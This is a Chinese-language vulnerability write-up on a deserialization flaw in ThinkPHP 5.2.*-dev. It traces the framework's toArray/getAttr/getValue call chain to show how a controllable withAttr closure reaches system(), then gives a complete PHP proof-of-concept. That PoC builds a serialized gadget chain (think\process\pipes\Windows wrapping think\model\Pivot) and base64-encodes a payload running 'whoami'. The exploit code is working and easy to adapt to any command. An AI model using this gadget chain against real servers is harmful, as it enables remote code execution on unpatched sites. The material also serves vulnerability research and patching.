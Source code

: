 Thinkphp 5.2.\*-dev 反序列化漏洞
================================

一、漏洞简介
------------

所有Thinkphp版本下载链接

<https://packagist.org/packages/topthink/framework>

二、漏洞影响
------------

三、复现过程
------------

### 环境搭建

    composer create-project topthink/think=5.2.*-dev v5.2

### poc演示截图

![](./.resource/Thinkphp5.2.*-dev反序列化漏洞/media/rId27.png)

### 调用链

![](./.resource/Thinkphp5.2.*-dev反序列化漏洞/media/rId29.png)

### 单步调试

可以看到前面的链跟tp5.1.x的一样，这里不在列举，直接进去toArray函数，可以看到\$data可控

    public function toArray(): array
    {
    。。。
    $data = array_merge($this->data, $this->relation);

    foreach ($data as $key => $val) {
       if ($val instanceof Model || $val instanceof ModelCollection) {
         // 关联模型对象
         if (isset($this->visible[$key])) {
          $val->visible($this->visible[$key]);
         } elseif (isset($this->hidden[$key])) {
          $val->hidden($this->hidden[$key]);
         }
         // 关联模型对象
         $item[$key] = $val->toArray();
       } elseif (isset($this->visible[$key])) {
         $item[$key] = $this->getAttr($key);
       } elseif (!isset($this->hidden[$key]) && !$hasVisible) {
         $item[$key] = $this->getAttr($key);
       }
    }
    。。。
    public function getAttr(string $name)
    {
        try {
            $relation = false;
            $value    = $this->getData($name);
        } catch (InvalidArgumentException $e) {
            $relation = true;
            $value    = null;
        }

        return $this->getValue($name, $value, $relation);
    }
    public function getData(string $name = null)
       {
           if (is_null($name)) {
               return $this->data;
           }

           $fieldName = $this->getRealFieldName($name);

           if (array_key_exists($fieldName, $this->data)) {
               return $this->data[$fieldName];
               ...
           }
       }
    protected function getRealFieldName(string $name): string
    {
        return $this->strict ? $name : App::parseName($name);  //this->strict默认为true
    }

可以看到getAttr函数中的\$value可控，那么导致\$this-\>getValue(\$name,
\$value, \$relation);这里的三个参数都可控，跟进\$this-\>getValue(\$name,
\$value, \$relation);

    protected function getValue(string $name, $value, bool $relation = false)
    {
        // 检测属性获取器
        $fieldName = $this->getRealFieldName($name);
        $method    = 'get' . App::parseName($name, 1) . 'Attr';

        if (isset($this->withAttr[$fieldName])) {
           if ($relation) {
             $value = $this->getRelationValue($name);
           }

           $closure = $this->withAttr[$fieldName];
           $value   = $closure($value, $this->data);

这里\$fieldName、\$this-\>withAttr，导致\$closure也可控，最终直接产生RCE。如下图

![](./.resource/Thinkphp5.2.*-dev反序列化漏洞/media/rId31.png)

补充：

    <?php

    $a = array();
    system('whoami',$a);

![](./.resource/Thinkphp5.2.*-dev反序列化漏洞/media/rId32.png)

![](./.resource/Thinkphp5.2.*-dev反序列化漏洞/media/rId33.png)

### poc v5.2.\*-dev

    <?php
    namespace think\process\pipes {
        class Windows
        {
            private $files;
            public function __construct($files)
            {
                $this->files = array($files);
            }
        }
    }

    namespace think\model\concern {
        trait Conversion
        {
            protected $append = array("Smi1e" => "1");
        }

        trait Attribute
        {
            private $data;
            private $withAttr = array("Smi1e" => "system");

            public function get($system)
            {
                $this->data = array("Smi1e" => "$system");
            }
        }
    }
    namespace think {
        abstract class Model
        {
            use model\concern\Attribute;
            use model\concern\Conversion;
        }
    }

    namespace think\model{
        use think\Model;
        class Pivot extends Model
        {
            public function __construct($system)
            {
                $this->get($system);
            }
        }
    }
    namespace{
        $Conver = new think\model\Pivot("whoami");
        $payload = new think\process\pipes\Windows($Conver);
        echo base64_encode(serialize($payload));
    }
    ?>

四、参考链接
------------

> <https://www.t00ls.net/thread-54324-1-1.html>
